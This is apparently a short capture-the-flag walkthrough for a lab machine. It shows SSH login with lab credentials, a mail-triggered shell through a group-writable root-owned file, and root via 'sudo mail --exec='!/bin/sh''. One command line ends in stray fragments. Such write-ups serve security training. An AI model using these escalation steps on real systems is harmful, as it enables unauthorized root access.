







Using `brian.moore : EternaLSunshinE`
```
ssh brian.moore@192.168.245.137
```


Running linpeas:

We found a readable and writeable file that's owned by root

We can edit it as we belong to `filter` group.

Now to trigger it we need to send a mail:
```
sudo swaks -t brian.moore@postfish.off --from it@postfish.off --server  192.168.241.137 -body @body.txt -header "Subject:Problems"postfix
pos
```
Now we get a shell as filter:


We can run mail as sudo.
```
sudo mail --exec='!/bin/sh'
```

We are root.